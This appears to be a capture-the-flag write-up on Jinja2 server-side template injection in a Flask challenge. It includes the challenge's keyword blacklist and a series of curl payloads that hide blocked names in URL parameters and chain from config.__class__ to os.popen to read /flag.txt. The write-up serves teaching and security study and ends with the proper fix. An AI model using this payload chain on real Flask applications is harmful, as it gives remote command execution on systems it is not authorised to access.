This writeup covers **The Riddler's Confession Booth**, a Flask/Jinja2 web challenge built around server-side template injection.

The bug is simple at first: user input is rendered as a template. The interesting part is the blacklist bypass. The filter only checks the POST body, while the dangerous attribute names can be hidden in URL parameters and read through Flask's `request.args`.

## First Look

Opening the challenge shows a dark terminal-themed page called **The Riddler's Hall of Enigmas**.

There is a single input asking you to carve your name on the wall.



Submitting a normal name like `Batman` echoes it back:



The output is:

```text
OUTPUT: Welcome, Batman!
```

Simple enough. But in a web CTF, an input that reflects your value is always worth testing.

## Confirming the Injection

The first thing to try is template injection.

Submit:

```text
{{7*7}}
```



The response evaluates the expression:



```text
OUTPUT: Welcome, 49!
```

The app evaluated `7*7` server-side and returned `49`. This confirms **Jinja2 SSTI**.

## Hitting the Blacklist

The next step is to try a classic SSTI chain.

Submit:

```text
{{config.__class__}}
```



The app blocks it:



```text
Forbidden sequence detected: __class__. The Riddler anticipated that move.
```

There is a blacklist, and the app tells us exactly which word triggered it. That is important because it confirms the filter is keyword-based.

## Reading the Source

Standard CTF instinct: check `/robots.txt`.



Visiting `/source` reveals the application code.

Two blocks immediately stand out. First, the blacklist:

```python
BLACKLIST = [
    "__class__", "__mro__", "__subclasses__", "__globals__",
    "__builtins__", "__import__", "__dict__", "__base__",
    "popen", "system", "exec", "eval",
    "os", "subprocess",
]

def check_blacklist(text: str):
    lower = text.lower()
    for word in BLACKLIST:
        if word in lower:
            return True, word
    return False, None
```



Second, the route logic:

```python
@app.route("/", methods=["GET", "POST"])
def index():
    ...
    name = request.form.get("name", "").strip()

    blocked, word = check_blacklist(name)
    if blocked:
        error = (
            f"Forbidden sequence detected: {word}. "
            "The Riddler anticipated that move."
        )
    else:
        wall_entry = "Welcome, " + name + "!"
        rendered = render_template_string(wall_entry)
```



The critical line is:

```python
name = request.form.get("name", "").strip()
```

The blacklist only checks `name`, and `name` comes exclusively from the POST body. URL parameters from `request.args` are never passed to `check_blacklist`.

But Jinja2 templates in Flask can access the `request` object at render time, including `request.args`.

That means dangerous strings can be placed in the URL, like `?a=__class__`, and then read inside the template with `request.args.a`. The POST body stays clean, so the blacklist does not catch it.

## Building the Exploit Chain

Flask exposes a `config` object inside templates. Through that object, we can climb into Python internals and reach the `os` module:

```text
config.__class__                         -> Flask's Config class
config.__class__.__init__                -> its constructor function
config.__class__.__init__.__globals__    -> globals of flask/config.py
['os']                                   -> the os module
os.popen('cat /flag.txt').read()         -> command execution
```

All the dangerous dunder names are blacklisted in the POST body, so we pass them through URL parameters and access them with Jinja2's `|attr()` filter.

For dictionary access, instead of writing `['os']`, we call `__getitem__()` through `attr()` as well.

## Step 1: Get the Config Class

Send `__class__` through the URL as `a`, then access it from the clean POST template.

```bash
curl -X POST 'http://<target>/?a=__class__' \
  --data-urlencode 'name={{ config|attr(request.args.a) }}'
```



The output becomes:

```text
OUTPUT: Welcome, <class 'flask.config.Config'>!
```

## Step 2: Get `__init__`

Now pass both `__class__` and `__init__` through URL parameters.

```bash
curl -X POST 'http://<target>/?a=__class__&b=__init__' \
  --data-urlencode 'name={{ config|attr(request.args.a)|attr(request.args.b) }}'
```



The output shows the constructor function:

```text
OUTPUT: Welcome, <function Config.__init__ at 0x...>!
```

## Step 3: Get `__globals__`

Next, access the globals of that constructor.

```bash
curl -X POST 'http://<target>/?a=__class__&b=__init__&c=__globals__' \
  --data-urlencode 'name={{ config|attr(request.args.a)|attr(request.args.b)|attr(request.args.c) }}'
```



This dumps a large dictionary: the globals from `flask/config.py`.

Inside it, there is an important entry:

```text
'os': <module 'os' (frozen)>
```

That is the bridge from the template context to command execution.

## Step 4: Pull `os` Out of the Dict

Now pass `os` as another URL parameter and call `__getitem__()` through `attr()`.

```bash
curl -X POST 'http://<target>/?a=__class__&b=__init__&c=__globals__&d=os' \
  --data-urlencode 'name={{ config|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)|attr("__getitem__")(request.args.d) }}'
```



The output confirms access to the module:

```text
OUTPUT: Welcome, <module 'os' (frozen)>!
```

## Getting the Flag

The final step is command execution.

`popen` is blacklisted in the POST body, so pass it through the URL as `e=popen`.

```bash
curl -X POST 'http://<target>/?a=__class__&b=__init__&c=__globals__&d=os&e=popen' \
  --data-urlencode 'name={{ config|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)|attr("__getitem__")(request.args.d)|attr(request.args.e)("cat /flag.txt")|attr("read")() }}'
```



The output contains the flag:

```text
OUTPUT: Welcome, securinetsisgt{r3qu3st_4rgs_4r3_th3_k3y}!
```

## What Was Actually Happening

The app passes user input directly into `render_template_string()`, which creates the SSTI vulnerability.

The blacklist tries to block dangerous payloads, but it only checks the POST field:

```text
POST body:
{{ config|attr(request.args.a)|... }}
```

That POST body does not contain blocked words like `__class__`, `__globals__`, `os`, or `popen`.

Those words are hidden in the URL:

```text
GET params:
?a=__class__&b=__init__&c=__globals__&d=os&e=popen
```

Since `request.args` is available inside the template, the payload can reconstruct the exploit chain at render time while staying invisible to the filter.

The important bridge is:

```text
config.__class__.__init__.__globals__
```

Because `flask/config.py` imports `os` at module level, its globals contain the `os` module. From there, `os.popen("cat /flag.txt").read()` gives command execution and reads the flag.

## Final Thoughts

This challenge is a clean example of why blacklists are weak against SSTI.

The filter only looked at one input source, but the template context could read another input source that was never filtered.

The right fix is to avoid rendering user input with `render_template_string()`. If user-controlled text must be displayed, treat it as data, escape it, and never execute it as a template.
